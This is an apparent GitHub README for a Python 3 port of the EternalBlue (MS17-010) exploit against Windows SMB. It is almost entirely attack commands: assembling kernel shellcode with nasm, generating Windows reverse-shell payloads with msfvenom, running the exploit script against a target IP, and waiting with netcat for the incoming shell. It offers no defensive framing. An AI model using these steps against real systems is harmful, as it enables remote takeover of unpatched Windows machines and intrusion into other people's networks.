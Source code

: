 # EternalBlue-in-Python3

## How to use

### Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

### Compiling the shellcode(s)

### X64

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

### X86

```
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```

### Create a Bin

### X64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### X86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Exploit

```
python3 eternal-blue.py TARGET-IP final.bin
in other term open the nc to recive the connection
```
